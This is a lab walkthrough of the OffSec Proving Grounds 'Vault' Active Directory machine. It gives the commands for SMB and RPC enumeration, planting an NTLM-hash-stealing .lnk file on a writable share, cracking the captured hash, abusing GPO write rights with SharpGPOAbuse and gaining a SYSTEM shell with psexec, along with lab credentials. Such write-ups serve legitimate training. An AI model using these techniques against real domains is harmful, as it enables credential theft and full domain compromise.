Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.134.172
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-31 12:02 IST
Nmap scan report for 192.168.134.172
Host is up (0.061s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49668/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49679/tcp open  unknown
49703/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.52 seconds
```

```sh
nmap -sC -sV -T4 -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49666,49668,49673,49674,49679,49703 192.168.134.172
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-31 12:06 IST
Nmap scan report for 192.168.134.172
Host is up (0.11s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-31 06:36:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.vault.offsec
| Not valid before: 2026-03-30T06:32:02
|_Not valid after:  2026-09-29T06:32:02
| rdp-ntlm-info: 
|   Target_Name: VAULT
|   NetBIOS_Domain_Name: VAULT
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: vault.offsec
|   DNS_Computer_Name: DC.vault.offsec
|   DNS_Tree_Name: vault.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2026-03-31T06:37:18+00:00
|_ssl-date: 2026-03-31T06:37:59+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-31T06:37:22
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.29 seconds
```

Based on the output, we can assume that we are in an Active Directory box, because there is Kerberos on port 88 and LDAP on port 389. After that initial scan I always run nmap with -p- flag to make sure that I’ve discovered all the ports. In that case, it only shows the presence of **WinRM**.  
So what do we want to enumerate?  
- **RPC** (as always on windows box)  
- **SMB** (as always on windows box)  
- **LDAP** (sometimes we can dump some interesting info)  
- **DNS** (last resort)

### **RPC — null auth**

I really like enumrating RPC, because it often gives us valueable informations like usernames, groups and info about server. To do that, we use a tool called **rpcclient** with flags **-U** (to specify the user, in our case, for null authentication we leave it empty) and **-N** (to skip the password prompt) followed by ip address

```sh
rpcclient -U "" -N 192.168.134.172
```



Unfortunately, We don’t have access to it. So far we don’t have any other candidates to check, so we move on.

### **SMB — null auth**

SMB is also really pleasant to enumerate. We can do it with a tool called **smbclient** with flags -N (to do null authentication) and -L (to list all shares) followed by ip.



We’ve discovered a share called **DocumentsShare**, which seems interesting. let’s poke around in it for a while, starting by logging into this share:



We successfully logged in, but there are no files inside. The next thing we gonna check is if we can upload some files to it. To do this, I’ve created a sample file called test.txt. Let’s give a try to upload it:



It worked! Bear in mind that we’re on Windows, so we can abuse NTLM authentication. Before the actual attack, we need a bit of theory on how NTLM auth works (more precisely, **Net-NTLMv2**):  
**1.** The user tries to connect to a service, sending a message like: “Hey, I’d like to access your service.”  
**2.** The service responds with something like: “Sure, but first prove you are who you say you are. Encrypt this value using your NTLM hash”  
**3**. The user then encrypts the value and sends it back..  
**4.** Based on that response, the service decides whether access is granted or not.  
Now, a question might come up, how can we force a user to authenticate to us? The answer is simple, NTLM auth is default authentication method, so we just need to set up a fake service. Basically, here’s what we’re gonna do:  
**1.** Create a malicious file that tries to connect back to us (to trigger NTLM authentication).  
**2.** Set up a fake service. In our case we’ll set up SMB server.  
**3.** Upload that malicious file and hope someone (a bot) clicks on it.”  
**4.** gather the NTLM hash of the user who clicked on it.

So let’s do it step by step:  
**1.** To create malicious file, I used to use ntlm_theft. You can download it from github [https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft). It generates a file that simply tries to connect to our server (I think all of them attempt to log into the SMB server, but I’ve never actually checked). To create the file we use this command:



 Why This Happens

You likely:

- Downloaded only `ntlm_theft.py` 
- OR copied it without the full repo structure 

The tool **depends on template files** (like `.lnk`, `.scf`, etc.)



In **vault** folder we can see our file.



Why did I choose lnk extension? Because from my experience it always works, I could’ve uploaded all the possible extensions too, but I kept it simple and only used .lnk.

**2.** Then we started responder.



**3.** Let’s upload our malicious file:.



4. We immediately got a response.



I’ve saved the NTLM hash to the file called hash and used john.



We successfully cracked it! We can try to log in as user `anirudh : SecureHM`



We got the user. Now we need to look for a way to log in. The first thing I’d like to check is winrm:



We can log in as this user via winrm!



Captured the local flag.



### Privilege Escalation

The first thing I like to do on the machine is to check privileges.



For AD-based attacks I usually start with bloodhound to get the big picture of the domain.

```sh
bloodhound-python -d vault.offsec -u anirudh -p SecureHM -ns 192.168.134.172 -c all
```





We download legacy bloodhound.
`wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-linux-x64.zip`

`unzip BloodHound-linux-x64.zip  

`cd BloodHound-linux-x64`

`./BloodHound --no-sandbox`



Then we upload the JSON files, and begin our analysis on the user **anirudh**. We can see something interesting in the **Outbound Object Control** section:



We have **GenericWrite** privilege on the “Default Domain Policy”, so we can grant ourselves administrator rights through this policy.

https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master

We’ll use a tool to achieve that. First of all we need to transfer it to the box, we can do this via evil-winrm.



OR we can upload through iwr/certutil.



After that, we can modify the policy using this command:

```PS
.\SharpGPOAbuse.exe --AddLocalAdmin --GPOName "Default Domain Policy" --UserAccount anirudh
```


 What each part means

`SharpGPOAbuse.exe`

- Tool used to **modify Group Policy Objects (GPOs)**
- It abuses permissions discovered via BloodHound

 `--AddLocalAdmin`

Tells the tool:

 Modify the GPO to add a user into the local Administrators group on affected machines

`--GPOName "Default Domain Policy"`

Target GPO:

- **Default Domain Policy**
- This is a **high-impact GPO**
- Usually linked at:

Domain level → affects ALL computers

That’s why your attack is powerful

 `--UserAccount anirudh`

 The user to be added as admin:

`anirudh`



After that we update the GPO:



as the result, we’re administrator!



Get “nt authority\system”

```sh
impacket-psexec vault.offsec/anirudh:SecureHM@192.168.134.172
```

Explanation

Impacket

`psexec.py`:

- Executes commands remotely over SMB
- Creates a **service on target**
- Gives you **SYSTEM shell**

 `vault.offsec/anirudh:SecureHM`

- Domain: `vault.offsec`
- User: `anirudh`
- Password: `SecureHM`

 This is your **compromised account**

@192.168.134.172`

- Target machine (likely **Domain Controller**)



Reference link :

https://medium.com/@Tvrpism/vault-proving-grounds-walkthrough-73bac067c13c

https://medium.com/@nr_4x4/offsec-proving-grounds-vault-writeup-5c76905ec2ba

Tools used:

https://github.com/Greenwolf/ntlm_theft

https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master

